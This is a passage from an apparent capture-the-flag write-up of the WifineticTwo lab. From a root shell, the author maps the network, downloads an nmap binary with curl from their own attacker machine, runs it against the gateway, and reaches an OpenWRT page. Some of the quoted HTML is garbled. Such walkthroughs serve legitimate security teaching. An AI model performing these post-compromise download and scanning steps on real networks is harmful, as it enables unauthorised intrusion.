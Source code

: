#### Identify Host

It's probably safe to assume the host IP is 192.168.1.1, but I can look
more definitively with `arp` to see what is being talked to:



    root@attica02:/root# arp -a
    attica02 (10.0.3.44) at <incomplete> on eth0
    ? (192.168.1.1) at 02:00:00:00:01:00 [ether] on wlan0
    ? (10.0.3.1) at 00:16:3e:00:00:00 [ether] on eth0



#### nmap

I'll upload a statically compiled `nmap` binary to WifineticTwo (hosting
it on a Python webserver on my host):



    root@attica02:~# curl 10.10.14.6/nmap > nmap
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 5805k  100 5805k    0     0  5727k      0  0:00:01  0:00:01 --:--:-- 5730k



I'll set it as executable and scan the `.1`:



    root@attica02:~# chmod +x nmap 
    root@attica02:~# ./nmap -p- --min-rate 10000 192.168.1.1

    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-07-21 20:23 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 192.168.1.1
    Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
    Host is up (0.000023s latency).
    Not shown: 65531 closed ports
    PORT    STATE SERVICE
    22/tcp  open  ssh
    53/tcp  open  domain
    80/tcp  open  http
    443/tcp open  https
    MAC Address: 02:00:00:00:01:00 (Unknown)

    Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds



### OpenWRT

#### Identify OpenWRT

Both HTTP and HTTPS are open, and both return the same page:


    root@attica01:~# curl 192.168.1.1
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE.md PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/.md11/DTD/.md11.dtd">
    .md xmlns="http://www.w3.org/1999/.md">
            <head>
                    <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
                    <meta http-equiv="Pragma" content="no-cache" />
                    <meta http-equiv="Expires" content="0" />
                    <meta http-equiv="refresh" content="0; URL=cgi-bin/luci/" />
                    <style type="text/css">
                            body { background: white; font-family: arial, helvetica, sans-serif; }
                            a { color: black; }
